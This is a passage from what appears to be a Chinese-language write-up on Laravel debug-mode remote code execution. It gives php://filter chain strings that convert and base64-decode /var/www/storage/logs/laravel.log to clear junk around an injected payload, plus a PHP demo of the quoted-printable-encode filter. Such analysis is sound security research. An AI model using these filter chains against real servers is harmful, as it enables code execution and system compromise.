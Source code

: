 最终清除 garbage 时, 选用 小端存储

```
大端编码, 调整 previous log 为偶数
php://filter/write=convert.iconv.utf-8.utf-16be
传入base64后小端payload
P\0A\0Y\0L\0O\0A\0D\0
php://filter/write=convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/var/www/storage/logs/laravel.log
```

这是一种方案. 

也能结合b64 decode清空日志

![image-20220215180041528](LaravelDebugModRCE.assets/image-20220215180041528.png)  

**quoted-printable-encode**

convert.*过滤器 的 quoted-printable-encode 可以将 8-bit字符串 转化成  quoted-printable 字符串

```php
<?php
$fp = fopen('php://output', 'w');
stream_filter_append($fp, 'convert.quoted-printable-encode');
fwrite($fp, "This is a test.\n");
/* 输出： =This is a test.=0A  */
?>
```

即将一些 non-textual char 转化为 quoted-printable char, 且长度由一变为三. 

Let's do some Math work! 
